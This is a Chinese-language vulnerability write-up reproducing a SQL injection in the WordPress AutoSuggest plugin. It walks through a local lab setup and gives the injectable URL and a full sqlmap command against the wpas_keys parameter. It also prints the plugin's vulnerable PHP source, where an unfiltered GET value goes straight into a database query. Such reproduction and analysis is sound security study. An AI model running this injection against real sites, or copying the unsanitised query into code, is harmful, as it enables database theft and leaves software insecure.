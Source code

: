 WordPress Plugin - AutoSuggest sql注入
======================================

一、漏洞简介
------------

WP
AutoSuggest这款插件在访问者输入关键字时，插件会在提交搜索查询之前通过AJAX请求在网页中显示一些建议。访问者可以通过按Enter继续搜索，或者访问者可以使用键盘箭头直接访问建议的帖子。

二、漏洞影响
------------

三、复现过程
------------

首先我们得进入exploit-db网站上下载这个存在漏洞的版本的插件原始码和本地构建WordPress网站（本地构建WordPress这里就不说了）。下载源码，如下图所示

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId24.png)

下载完成之后，把wp-autosuggest目录直接拖到Wordpress目录的\\wp-content\\plugins\\下。

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId25.png)

接着，登录后台，启用这款插件，如下图所示：

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId26.png)

启用后，退出后台，如下图所示：

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId27.png)

然后根据exploit-db网站上给出的漏洞详情，我们访问下面的URL：

    http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1

访问后，网页内容如下图所示：

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId28.png)

根据exploit-db网站上给出的漏洞详情，我们也知道了wpas\_keys参数存在注入，于是我们可以使用SQLMAP注入神器，对网站进行注入。SQLMAP命令如下：

    sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment

一开始，笔者使用的时php5.2.17+Apache的环境，结果复现不了，头疼了半天，如下图：

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId29.png)

后来笔者换了一个php-5.4.45+Apache的环境，就解决了。

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId30.png)

通过SQLMAP，成功获取到服务器的一些信息，如下图所示：

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId31.png)

下图也成功跑出了当前数据库的名称。

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId32.png)

### 漏洞分析

分析WordPress插件的话还是挺容易的。文件和代码也不是很多，用Notepad++就够用啦。进入插件根目录下面就看到了autosuggest\_functions.php、autosuggest.php这两个php文件。

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId34.png)

下面是autosuggest.php文件所有代码：

    <?php
    include 'autosuggest_functions.php';

    $wpas_action = '';
    $wpas_keys = '';
    if(isset($_GET['wpas_action'])) {
        $wpas_action = $_GET['wpas_action'];
    }
    if (isset($_GET['wpas_keys'])) {
        $wpas_keys = $_GET['wpas_keys'];
    }


    if ($wpas_action == 'query') {

        require_once ('../../../wp-config.php');

        header('Content-Type: text/xml');
        echo '<results>';

        global $wpdb;

        $wpas_keys = str_replace(' ','%',$wpas_keys);
        $pageposts = $wpdb->get_results("SELECT * FROM $wpdb->posts WHERE (post_title LIKE '%$wpas_keys%') AND post_status = 'publish' ORDER BY post_date DESC");
        foreach ($pageposts as $post) {
            setup_postdata($post);
            echo "<rs id=\"";
            the_permalink();
            echo "\" info=\"" . autosuggest_excerpt(apply_filters('the_title', get_the_content())) . "\">";
            the_title();
            echo "</rs>";
        }
        echo '</results>';
        die();
    }

    define('AUTOSUGGEST_DIR', get_option('siteurl') . '/' . PLUGINDIR.'/'.dirname(plugin_basename(__FILE__)));


    function add_autosuggest_css() {
        wp_register_style('autosuggestCSS', AUTOSUGGEST_DIR . '/css/wp_autosuggest.css', null, '1', 'screen');
        wp_enqueue_style('autosuggestCSS');
    }

    function add_autosuggest_js() {
        wp_register_script('autosuggestJS', AUTOSUGGEST_DIR . '/js/wp.autosuggest.js', null, '1');
        wp_enqueue_script('autosuggestJS');
    }

    function add_autosuggest_footer_code() {
    ?>
    <script type="text/javascript">
    var autosuggest_options = {
        script: "<?php echo AUTOSUGGEST_DIR; ?>/autosuggest.php?wpas_action=query&",
        varname: "wpas_keys",
        shownoresults:true,
        noresults:"<?php echo __('No results found.'); ?>",
        timeout:15000,
        callback:autosuggestSelected,
        maxresults: <?php echo get_wpas_option('wpas_maxresults','10'); ?>
    };
    var as = new AutoSuggest('<?php echo get_wpas_option('wpas_input_id','s'); ?>', autosuggest_options);
    function autosuggestSelected(entry) {
        document.location = entry['id'];
    }
    </script>
    <?php
    }

    function add_autosuggest_settings() {
    ?>
    <div class="wrap">

        <?php

            $smsg = "";
            if (isset($_POST['submitoptions'])) {
                if (isset($_POST['wpas_input_id'])) {
                    update_option('wpas_input_id',$_POST['wpas_input_id']);
                }
                if (isset($_POST['wpas_maxresults'])) {
                    update_option('wpas_maxresults',$_POST['wpas_maxresults']);
                }
                ?>

                <div id="message" class="updated fade"><p>WP AutoSuggest settings updated.</p></div>

        <?php } ?>

        <h2>WP AutoSuggest Settings</h2>

        <form action="" method="post">
        <table class="form-table">
            <tr valign="top">
            <th scope="row">Search Input ID</th>
            <td>
            <input type="text" value="<?php echo get_wpas_option('wpas_input_id','s'); ?>" id="wpas_input_id" name="wpas_input_id"/><br/>
            Default value is 's' which is used with the default WordPress theme. 
            </td>
            </tr>
            <tr valign="top">
            <th scope="row">Max Results</th>
            <td>
            <input type="text" value="<?php echo get_wpas_option('wpas_maxresults','10'); ?>" id="wpas_maxresults" name="wpas_maxresults"/><br/>
            Maximum number of suggested results (10 by default).
            </td>
            </tr>
        </table>
        <p class="submit"><input type="submit" name="submitoptions" value="Update Settings" /></p>
        </form>
        </div>
    <?php
    }

    function add_autosuggest_menu_settings() {
        if (function_exists('add_options_page')) {
             add_options_page(
                 "WP AutoSuggest"
                 , "WP AutoSuggest"
                 , 7
                 , basename(__FILE__)
                 , 'add_autosuggest_settings');
        }
    }

    add_action('wp_print_scripts', 'add_autosuggest_js');
    add_action('wp_print_styles', 'add_autosuggest_css');
    add_action('wp_footer', 'add_autosuggest_footer_code');
    add_action('admin_menu', 'add_autosuggest_menu_settings');


    ?>

相信大家没看几行就看出了问题的所在，变量wpas\_keys是直接获取GET中的wpas\_keys。一点都没过滤，并且在下面代码中，变量wpas\_keys也带入数据库中查询了（wpdb是wordpress操作数据库方法），于是SQL注入就产生了。

![](resource/WordPressPlugin-AutoSuggestsql注入/media/rId35.png)

四、参考链接
------------

> <https://www.exploit-db.com/exploits/45977>
>
> <https://www.freebuf.com/vuls/191869.html>
